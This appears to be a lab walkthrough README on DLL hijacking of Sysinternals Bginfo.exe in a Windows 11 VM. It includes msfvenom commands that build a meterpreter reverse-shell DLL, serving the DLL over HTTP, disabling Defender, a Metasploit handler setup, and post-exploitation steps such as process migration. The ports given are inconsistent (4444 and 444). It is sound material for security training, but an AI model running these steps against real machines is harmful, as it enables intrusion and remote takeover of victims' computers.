 # 1. Find the Vulnerable `.dll` File
### In Windows 11 VM
Use [procmon](https://learn.microsoft.com/en-us/sysinternals/downloads/procmon) to find the vulnerable `.dll` file.

### Filter Settings
Create the following 3 conditions
![procmon](./screenshots/02.png)


### Search for vulnerable `.dll` file
Then execute [Bginfo.exe](https://learn.microsoft.com/en-us/sysinternals/downloads/bginfo).

![Bginfo.exe](./screenshots/03.png)

I tried one or several `.dll` files in the folder of `C:\User\user\Desktop\BGinfo` at the same time, but none of them worked. Eventually, I found on `.dll` file `rpcss.dll` had been searched by `Bginfo.exe` twice, so I tried it and it worked!

![rpcss.exe](./screenshots/01.png)

# 2.Kali VM
### Generate malicious `.dll` file
You can use `ip a` to find your IP address in case you haven't checked it yet.
```bash
msfvenom -p windows/meterpreter/reverse_tcp  -ax86 -f dll LHOST=<YOUR_IP_ADDR> LPORT=4444 > <VULNERABLE_DLL_FILE_NAME>.dll
```
![malicious_dll.exe](./screenshots/04.png)

### Host a server 8000
Then, the victim Windows 11 VM can download this malicious `.dll` file directly from your server.
```bash
python3 -m http.server 8000
```

# 3. Windows 11 VM
### Download the file
- Make sure you turn off the defender before, or the file will be removed.
- Put this `.dll` file into the folder shown in the `procmon`.

![server_8000](./screenshots/05.png)

# 4. Kali
### Generate shell in Metasploit
```bash
sudo msfconsole
```

![Metaslpoit](./screenshots/06.png)

### Create the shell

```bash
use multi/handler
set LHOST <YOUR_IP_ADDR>
set LPORT 444
set PAYLOAD windows/meterpreter/reverse_tcp
```

**NOTE:** You can use `show options` to check the information you typed previously.

### Start Listening
Finally, we can start listening to the malicious payload once the victim click on the executable, then it will be reversed back to the Kali VM.
```bash
exploit
```

# 5. Windows 11
I restart the Windows 11 VM before fire up the executable `Bginfo.exe`, but if you succeed right away, you can skip this step/

![Bginfo.exe](./screenshots/07.png)

# 6. Kali
Then you will find you have the meterpreter shell now.
![meterpreter shell 01](./screenshots/08.png)

# Exploration
- Explore the victim's VM
- Migrate to another process in case the victim kills the original one.
![meterpreter shell 02](./screenshots/09.png)

### Check the Vulnerabilities

![meterpreter shell 03](./screenshots/10.png)

It might take longer time for Windows 11, Windows 10 or 7 would be recommended for testing prupose.

![meterpreter shell 04](./screenshots/11.png)


---

# Reference
- [DLL Hijacking Basics](https://medium.com/@zapbroob9/dll-hijacking-basics-ea60b0f2a1d8) by Enes Adışen, 2023.